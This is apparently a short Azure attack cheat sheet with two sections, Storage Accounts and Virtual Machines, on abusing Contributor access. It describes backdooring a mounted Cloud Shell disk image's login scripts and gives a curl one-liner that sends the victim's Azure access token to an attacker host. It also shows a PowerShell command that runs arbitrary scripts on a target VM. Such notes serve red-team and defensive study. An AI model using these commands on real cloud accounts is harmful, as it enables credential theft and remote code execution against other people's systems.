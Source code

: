 
<a id='storage-accounts'></a>
## Storage Accounts

### Abuse Contributor access to a Cloud Shell Storage Account

**Description**: after downloading the `.img` file from a Cloud Shell Storage Account, mounts the file to a Linux system and modifies its login scripts for RCE.

**Note**:
- Login scripts for Linux and Windows are respectively:
  - `.bashrc`
  - `/home/<username>/.config/PowerShell/Microsoft.PowerShell_profile.ps1`
- The curl command works on both platforms

```shell
mount acc_username.img /mnt/
```

```shell
curl -s https://<IP_ADDRESS_OR_DOMAIN>?t="$(az account get-access-token --only-show-errors | jq -r '.accessToken')" 1>/dev/null
```


<a id='vms'></a>
## Virtual Machines

### Abuse Contributor access to a VM

```shell
$rg = ''
$vm = ''
$script = ''

Invoke-AzureRmVMRunCommand -ResourceGroupName $rg -VMName $vm -CommandId RunPowerShellScript -ScriptPath $script
```

